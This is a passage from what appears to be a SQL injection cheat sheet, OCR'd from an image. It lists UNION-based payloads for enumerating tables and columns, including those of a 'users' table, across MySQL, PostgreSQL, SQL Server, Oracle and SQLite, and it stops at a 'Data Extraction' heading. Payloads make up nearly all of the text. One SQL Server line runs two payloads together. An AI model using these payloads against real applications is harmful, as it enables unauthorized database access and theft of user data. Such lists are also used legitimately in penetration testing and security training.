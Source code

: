 
#### 3.2 Table Enumeration

- List available tables:
    - MySQL/PostgreSQL:
        
        ```
        ' UNION SELECT null, table_name FROM information_schema.tables --
        ```
        
    - SQL Server:
        
        ```
        ' UNION SELECT null, table_name FROM information_schema.tables --' UNION SELECT null, name FROM sysobjects WHERE xtype='U' --
        ```
        
    - Oracle:
        
        ```
        ' UNION SELECT null, table_name FROM all_tables --
        ```
        
    - SQLite:
        
        ```
        ' UNION SELECT null, name FROM sqlite_master WHERE type='table' --
        ```
        

#### 3.3 Column Enumeration

- List columns in specific tables:
    - MySQL/PostgreSQL:
        
        ```
        ' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users' --
        ```
        
    - SQL Server:
        
        ```
        ' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users' --
        ```
        
    - Oracle:
        
        ```
        ' UNION SELECT null, column_name FROM all_tab_columns WHERE table_name='USERS' --
        ```
        
    - SQLite:
        
        ```
        ' UNION SELECT null, sql FROM sqlite_master WHERE type='table' AND name='users' --
        ```
        

### 4. Data Extraction
